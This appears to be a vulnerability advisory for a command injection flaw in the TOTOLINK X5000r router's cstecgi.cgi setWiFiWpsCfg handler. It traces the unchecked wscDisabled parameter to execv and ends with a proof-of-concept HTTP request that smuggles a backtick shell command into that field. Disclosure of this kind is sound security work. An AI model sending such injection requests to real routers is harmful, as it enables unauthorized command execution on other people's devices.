 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setWiFiWpsCfg`.Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setWiFiWpsCfg` (at 0x41182C), binary /cgi-bin/cstecgi.cgi. The parameter `wscDisabled` is passed to 'Uci_set_str' without any check.
![setWifiWpsCfg](image.png)
Uci_Set_Str passes the parameter `enable` and `port` as the fourth argument, which is in libcscommon.so. It can be observed that Uci_Set_Str calls snprintf to format our param_4 into the string uci -c %s set .... and passes the string to the CsteSystem function,which will eventually be called by execv.
![uci_set_str](image.png)
![uci_set_str2](image-1.png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 216
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "setWiFiWpsCfg", "wifiIdx": "aaawzqaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaa", "0": "wzqwzqwzq", "wscDisabled": "`ls -l`"}
```
![alt text](image-3.png)
